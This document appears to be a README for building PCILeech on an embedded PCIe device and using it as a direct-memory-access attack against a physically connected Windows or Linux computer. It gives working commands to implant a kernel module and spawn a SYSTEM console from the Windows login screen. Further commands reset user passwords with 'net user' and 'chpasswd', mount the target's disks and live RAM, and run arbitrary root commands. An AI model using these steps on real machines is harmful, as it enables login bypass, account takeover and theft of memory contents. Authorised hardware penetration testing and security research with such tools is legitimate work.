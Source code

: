 # PCILeech setup
On the embedded platform

Install dependencies

```shell
sudo apt install libusb-1.0-0-dev build-essential pkgconf liblz4-dev libfuse-dev
```

Build everything

```shell
mkdir PCILeech && cd PCILeech
# Clone Leechcore
git clone https://github.com/ufrisk/LeechCore.git
# Clone Leechcore-plugins
git clone https://github.com/rwk-git/LeechCore-plugins.git --branch generic --single-branch
# Clone MemProcFS
git clone https://github.com/ufrisk/MemProcFS.git
# Clone PCILeech
git clone https://github.com/ufrisk/pcileech.git

# Build the LeechCore library
pushd LeechCore/leechcore
make
popd
# Build the MemProcFS library
pushd MemProcFS/vmm
make
cd ../memprocfs
make
popd
# Build the LeechCore plugin
pushd LeechCore-plugins/leechcore_device_generic
make
popd
# Build PCI Leech
pushd pcileech/pcileech
make
cd ../files
cp ../../LeechCore-plugins/files/leechcore_device_generic.so .
popd
```

# PCILeech usage examples

In the embedded platform, go in the `PCILeech/pcileech/files` directory as that is where the executable and libraries are.

## Windows target

- Implant kernel module with `sudo ./pcileech kmdload -kmd WIN10_X64_3 -device 'generic://dev=/dev/pci-io'`
- Save the returned Kernel Module Address with `export KMD=0x7ffff000` here you manually have to type the address returned above
- List processes with `sudo ./pcileech -kmd $KMD wx64_pslist  -device 'generic://dev=/dev/pci-io'`
- Search for login process with `sudo ./pcileech -kmd $KMD wx64_pslist  -device 'generic://dev=/dev/pci-io' | grep -A 1 LogonUI.exe | sed 's/.*PID=\(.*\)|.*/\1/p' | tail -n1`
- Open a console with `sudo ./pcileech -kmd $KMD wx64_pscreate -0 0x$(sudo ./pcileech -kmd $KMD wx64_pslist  -device 'generic://dev=/dev/pci-io' | grep -A 1 LogonUI.exe | sed 's/.*PID=\(.*\)|.*/\1/p' | tail -n1) -s 'C:\Windows\System32\cmd.exe' -1 0x08000000 -2 0x1  -device 'generic://dev=/dev/pci-io'`
  Here a nested command is used to get the PID of the LogonUI.exe process in Windows, then a command line is opened
- Change the password with `net user <username> <password>` e.g., `net user admin 1234`
- This is a system (Windows jargon for *root*) console, you can do anything from here.

**Notes:** In the examples above I use `LogonUI.exe` as parent process, this is only available on the login screen, choose another process in other circumstances.

### Mount all Windows file systems and system RAM

- Create a mountpoint somewhere in your file system `mkdir -p /home/ubuntu/target`
- Mount the windows file systems and RAM with `sudo ./pcileech mount -mount /home/ubuntu/target/ -kmd $KMD -device 'generic://dev=/dev/pci-io'`

```
root@ENVME:~# ls /home/ubuntu/target/
files  liveram-kmd.raw	liveram-native.raw
# Read the RAM natively (through PCIe), for example here data is shown for the low addresses
root@ENVME:~# xxd /home/ubuntu/target/liveram-native.raw | head -n 1000
# Read the RAM through the kernel module, for example here these low addresses cannot be accessed, therefore read as 0
root@ENVME:~# xxd /home/ubuntu/target/liveram-kmd.raw | head -n 1000
# Check the taget file systems
root@ENVME:~# ls /home/ubuntu/target/files/c/
'$Recycle.Bin'		   PerfLogs		        Users
'$WinREAgent'		  'Program Files'	        Windows
'Documents and Settings'  'Program Files (x86)'         hiberfil.sys
 DumpStack.log		   ProgramData		        pagefile.sys
 DumpStack.log.tmp	   Recovery		        swapfile.sys
 Intel			  'System Volume Information'
```

## Linux target

- Implant kernel module with `sudo ./pcileech kmdload -kmd LINUX_X64_48 -device 'generic://dev=/dev/pci-io'`
- Save the returned Kernel Module Address with `export KMD=0x60000000` here you manually have to type the address returned above
- Send any command as root `sudo ./pcileech -kmd $KMD lx64_exec_root -s "echo '<user>:<password>' | chpasswd" -1 1 -device 'generic://dev=/dev/pci-io'`
  For example `sudo ./pcileech -kmd $KMD lx64_exec_root -s "echo 'reds:1234' | chpasswd" -1 1 -device 'generic://dev=/dev/pci-io'`
  Or turn off the computer (properly) `sudo ./pcileech -kmd $KMD lx64_exec_root -s "poweroff" -1 1 -device 'generic://dev=/dev/pci-io'`